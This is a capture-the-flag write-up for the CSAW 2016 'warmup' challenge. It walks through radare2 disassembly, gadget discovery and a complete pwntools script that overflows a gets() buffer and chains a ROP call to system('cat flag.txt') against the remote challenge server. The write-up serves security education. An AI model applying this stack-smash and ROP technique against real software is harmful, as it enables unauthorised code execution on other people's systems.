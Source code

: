 # Pwn50 "warmup"

## The direct approach (with the benefit of hindsight)

Warmup is a pretty simple `x86_64` exploitation challenge.

```
$ file warmup
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped
```

Looking at it in `r2`, it's easy to see that it leaks an address in the binary (`sym.easy`), and then calls `gets` on a stack-allocated buffer.
```
$ r2 warmup
[0x00400520]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[0x00400520]> s main
[0x0040061d]> pdf
            ;-- main:
╒ (fcn) sym.main 136
│           ; var int local_40h @ rbp-0x40
│           ; var int local_80h @ rbp-0x80
│           ; DATA XREF from 0x0040053d (sym.main)
│           0x0040061d      55             pushq %rbp
│           0x0040061e      4889e5         movq %rsp, %rbp
│           0x00400621      4883c480       addq $-0x80, %rsp
│           0x00400625      ba0a000000     movl $0xa, %edx
│           0x0040062a      be41074000     movl $str._Warm_Up__n, %esi ; "-Warm Up-." @ 0x400741
│           0x0040062f      bf01000000     movl $1, %edi
│           0x00400634      e887feffff     callq sym.imp.write
│           0x00400639      ba04000000     movl $4, %edx
│           0x0040063e      be4c074000     movl $str.WOW:, %esi        ; "WOW:" @ 0x40074c
│           0x00400643      bf01000000     movl $1, %edi
│           0x00400648      e873feffff     callq sym.imp.write
│           0x0040064d      488d4580       leaq -0x80(%rbp), %rax
│           0x00400651      ba0d064000     movl $sym.easy, %edx        ; "UH...4.@" @ 0x40060d
│           0x00400656      be51074000     movl $0x400751, %esi
│           0x0040065b      4889c7         movq %rax, %rdi
│           0x0040065e      b800000000     movl $0, %eax
│           0x00400663      e8a8feffff     callq sym.imp.sprintf
│           0x00400668      488d4580       leaq -0x80(%rbp), %rax
│           0x0040066c      ba09000000     movl $9, %edx
│           0x00400671      4889c6         movq %rax, %rsi
│           0x00400674      bf01000000     movl $1, %edi
│           0x00400679      e842feffff     callq sym.imp.write
│           0x0040067e      ba01000000     movl $1, %edx
│           0x00400683      be55074000     movl $0x400755, %esi
│           0x00400688      bf01000000     movl $1, %edi
│           0x0040068d      e82efeffff     callq sym.imp.write
│           0x00400692      488d45c0       leaq -0x40(%rbp), %rax
│           0x00400696      4889c7         movq %rax, %rdi
│           0x00400699      b800000000     movl $0, %eax
│           0x0040069e      e85dfeffff     callq sym.imp.gets
│           0x004006a3      c9             leave
╘           0x004006a4      c3             retq
[0x0040061d]> f~easy
0x0040060d 16 sym.easy
```

There are no canaries, and `system` is already included in the PLT:
```
[0x0040061d]> ii
[Imports]
ordinal=001 plt=0x004004c0 bind=GLOBAL type=FUNC name=write
ordinal=002 plt=0x004004d0 bind=GLOBAL type=FUNC name=system
ordinal=003 plt=0x004004e0 bind=GLOBAL type=FUNC name=__libc_start_main
ordinal=004 plt=0x004004f0 bind=UNKNOWN type=NOTYPE name=__gmon_start__
ordinal=005 plt=0x00400500 bind=GLOBAL type=FUNC name=gets
ordinal=006 plt=0x00400510 bind=GLOBAL type=FUNC name=sprintf

6 imports
```

There's also a command to pass already included as a string in the binary:
```
[0x0040061d]> iz
vaddr=0x00400734 paddr=0x00000734 ordinal=000 sz=13 len=12 section=.rodata type=ascii string=cat flag.txt
vaddr=0x00400741 paddr=0x00000741 ordinal=001 sz=11 len=10 section=.rodata type=ascii string=-Warm Up-\n
vaddr=0x0040074c paddr=0x0000074c ordinal=002 sz=5 len=4 section=.rodata type=ascii string=WOW:
```

On `x86_64`, the calling convention is to pass arguments in registers (first rdi, then rsi, then rdx, and so on). In order to invoke `system("cat flag.txt")` from the stack smash, we need to get `0x00400734` (the address of "cat flag.txt") into rdi, and then return to `0x004004d0` (system's PLT entry).

`ROPgadget` is a convenient way to get some helper addresses:
```
$ ROPgadget --binary warmup | grep ': pop rdi\|: ret'
0x0000000000400713 : pop rdi ; ret
0x00000000004004a1 : ret
0x0000000000400595 : ret 0xc148
```

There's a neat trick to avoid caring about the exact offset that system goes into, and that is to use the address of a `ret` instruction as a kind of nop-sled. The start of main subtracts 0x80 from the stack, so I round up to 0xa0 as something large enough to be sure to overwrite the return address, but small enough to not go out-of-bounds for the mapped segment.

Throwing it all together with the `pwntools` Python library:

```
from pwn import *
import struct

p = process('./warmup') if '--live' not in sys.argv else remote('pwn.chal.csaw.io', 8000)

print(p.recvregex('WOW:'))
r = '0x([0-9a-f]*)\n'
easy_offset = 0x40060d
easy_leak = int(re.findall(r, p.recvregex(r))[0], 16)

print('easy_leak: %r' % (easy_leak,))
base_delta = easy_leak - 0x40060d
print('base_delta: %r' % (base_delta,))

ret = struct.pack('<Q', 0x00000000004004a1)
poprdi = struct.pack('<Q', 0x0000000000400713)
catflag = struct.pack('<Q', 0x400730+4)
system = struct.pack('<Q', 0x00000000004004d0)
p.sendline(ret*(0xa0/8) + poprdi + catflag + system)

print p.recvall()
```

This yields us the flag:
```
$ ./pwn50_warmup_exploit.cleaned.py --live
[+] Opening connection to pwn.chal.csaw.io on port 8000: Done
-Warm Up-
WOW:
easy_leak: 4195853
base_delta: 0
[+] Recieving all data: Done (30B)
[*] Closed connection to pwn.chal.csaw.io port 8000
>FLAG{LET_US_BEGIN_CSAW_2016}
```

## Detours I took (without the benefit of hindsight)
- I didn't initially use r2's strings command to find the `cat flag.txt` string in the binary. I was looking for the strings `ed` and `sh` in `objdump -s warmup`'s output, in order to get a shell. I didn't find either, but I did notice the `cat flag.txt` string during that.

- Also, the using the leak turned out to be unnecessary, as the binary wasn't compiled as position independent (hence `base_delta` evaluating to 0).
